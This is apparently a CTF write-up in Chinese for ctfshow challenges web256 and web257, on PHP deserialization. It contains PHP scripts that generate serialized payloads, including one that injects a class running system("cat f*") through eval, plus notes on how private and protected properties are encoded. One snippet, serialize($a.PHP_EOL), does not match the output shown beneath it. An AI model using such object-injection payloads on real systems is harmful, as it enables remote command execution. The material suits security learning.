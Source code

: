 ### web256

看代码，需要满足username和password不相同
使用unserialize去构造字符串，使两者不同
```php
<?php
class ctfShowUser{
    public $isVip=true;
    public $username='a';
}
echo serialize(new ctfShowUser);
```
### web257
看代码，跟前面几个题不相同了，需要你通过eval的命令执行来得到flag
ctfShowUser类中的__construct()和__destruct(),可以执行其他类的代码
```php
<?php
class ctfShowUser{
    private $class;
    public function __construct(){
        $this->class=new backDoor();
    }
}
class backDoor{
    private $code='system("cat f*");';
}
$b=new ctfShowUser();
echo urlencode(serialize($b));
```
#### 为什么需要用urlencode?

原因就是属性的修饰词不同，在反序列化中，private和protected都有例外
private：序列化后变量前\x00类名\x00 				protected：序列化后变量前\x00*\x00

```php
<?php
class xctf{
    private $flag = '111';
    public $a='222';
    protected $b='333';
    public function __wakeup(){
    exit('bad requests');
    }
}
$a=new xctf();
echo serialize($a.PHP_EOL);
?>
```

输出

```php
O:4:"xctf":3:{s:10:"xctfflag";s:3:"111";s:1:"a";s:3:"222";s:4:"*b";s:3:"333";}
```
